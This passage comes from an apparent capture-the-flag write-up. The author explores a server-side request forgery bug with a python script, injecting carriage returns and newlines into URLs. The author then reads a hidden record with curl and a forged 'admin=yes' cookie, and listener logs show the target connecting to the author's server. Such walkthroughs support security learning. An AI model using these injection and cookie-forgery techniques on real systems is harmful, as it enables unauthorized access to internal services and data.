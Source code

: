 ```sh
GET /lol.com HTTP/1.0
Host: 212ror.channelcs.com

--remote--
```

Nicee, so now we are able to send requests to arbitary ports, and view their responses. Let's mess around with it some more :)

```sh
--local--

jazzy@lolbox /home/data/Hack_stuff/h1ctf2 $ python ssrf.py '212ror.channelcs.com:83/ \rlol.com'
Reading id -> 53
HEHE83

jazzy@lolbox /home/data/Hack_stuff/h1ctf2 $ python ssrf.py '212ror.channelcs.com:83/ \n\rlol.com'
Reading id -> 55
Empty response

--local--

--remote--

Listening on [0.0.0.0] (family 0, port 83)
Connection from [104.236.20.43] port 83 [tcp/*] accepted (family 2, sport 47924)
lol.com HTTP/1.0
Host: 212ror.channelcs.com

--remote--
```

There's actually a couple interesting things in there.

First of all, when we injected the carriage return, it messed up the http verb(`GET`) in the request. `lol.com` overwrote the http verb.

The second thing is that after we injected the newline, we didn't get a connection to our server, and the `Reading ID` skipped '54'. It went directly from '53' to '55'. This actually took me quite a bit of time to notice.(Thanks to my old habit of debug printing everything).

Let's use curl and send a request to the '54'th ID.

```sh
--local--

jazzy@lolbox /home/data/Hack_stuff/h1ctf2 $ curl 'admin.acme.org/read.php?id=54' -b 'admin=yes'
{"data":"SEVIRTgzCg=="}
jazzy@lolbox /home/data/Hack_stuff/h1ctf2 $ echo "SEVIRTgzCg=="|base64 -d
HEHE83

--local--

--remote--

Listening on [0.0.0.0] (family 0, port 83)
Connection from [104.236.20.43] port 83 [tcp/*] accepted (family 2, sport 55678)
GET /  HTTP/1.0
Host: 212ror.channelcs.com

--remote--

```

